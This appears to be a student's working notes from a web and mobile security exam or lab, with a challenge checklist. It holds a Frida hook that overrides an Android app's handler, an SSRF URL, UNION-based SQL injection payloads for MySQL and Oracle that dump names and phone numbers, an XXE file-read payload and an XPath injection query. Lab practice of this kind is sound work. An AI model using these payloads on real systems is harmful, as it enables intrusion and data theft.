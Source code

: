Java.perform(function(){
    var MainActivity = Java.use('com.netsquare.enigmaexam.MainActivity');

    MainActivity.On_click = function(){
        send('')
    };
})


For c23 use demo.jsp:.txt

http://192.168.2.243:8080/secret.txt
Ssrf
C19 wval parameter/Base64 



Step1

' Union all SeLect table_name,NULL,NULL FrOm information_schema.tables--

Step2

' Union all SeLect Concat(table_name),NULL,NULL FrOm information_schema.tables--

Step3

' Union all SeLect Concat(column_name),NULL,NULL FrOm information_schema.columns Where table_name='net_square'--

Step4

' Union all Select Concat(name,phone_number),NULL,NULL From net_square-- -





Step-1

' Union Select null,Table_name,null From all_Tables--

Step-2

' Union Select null,Column_name,null From all_tab_columns Where Table_name='NET_SQUARE'--

Step-3

' Union Select null,NAME||PHONE_NUMBER,null From NET_SQUARE--


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [<!ENTITY var SYSTEM "file:///etc/hash.txt">]>
<data><col>TG9jYXRpb24=</col><wval>2010</wval></data>



XPATH query : //emp[user/text()='Ravi' and pass/text()='Elon@123']/key--



Web Challenges		
C1 <=> Observation of Encrypted/Hashed/Encoded String		done
C2 <=> Web Time Traveller		                done
C3 <=> User Login Bypass 		                done
C4 <=> Server Fingerprinting		            done
C5 <=> HTTP Form Manipulation		            done
C6 <=> Client Side Input Validation Bypass		done
C7 <=> User ID Enumeration		                done
C8 <=> 2FA Bypass Using Brute Force Attack		done
C9 <=> HTML5 Storage		                    done
C10 <=> Session Validation Bypass		        done
C11 <=> XSS via Weak Client Side Validation		done
C12 <=> XSS via WAF Bypass		                pending
C13 <=> Weak Session ID		                    done
C14 <=> Insecure Direct Object Reference		done
C15 <=> REST API HTTP Methods		            done
C16 <=> Brute force on CSRF enabled Page		pending
C17 <=> Server-side request forgery		done
C18 <=> NoSQL Injection		            pending
C19 <=> SQL Injection via WAF Bypass		done
C20 <=> Advanced SQL Injection		        pending
C21 <=> Exploiting XXE to Retrieve File		pending
C22 <=> Exploiting XXE Vulnerabilities In File Parsing Functionality		pending
C23 <=> Unrestricted File Upload		    done
C24 <=> PHP Code Injection using RFI		pending
C25 <=> Exploitation of Deserialization		pending
C26 <=> Passive Information Collection		done
C27 <=> XPATH Injection		                pending

Mobile Android Challenges		
C28 <=> Hard Coded Secrets in Application 1		done
C29 <=> Hard Coded Secrets in Application 2		done
C30 <=> Root Detection and SSL Pinning Bypass		done
C31 <=> Improper Export of Android Application Components		done
C32 <=> 2FA Bypass Android		done

Mobile iOS Challenges		
C33 <=> Hard Coded Secrets in Application 3		pending

Network Challenges		
C34 <=> Network Traffic Analysis & Reproduce Attack		done
C35 <=> Insecure Cloud Storage		pending
C36 <=> Boot2Root Challenge		done

Code Review Challenges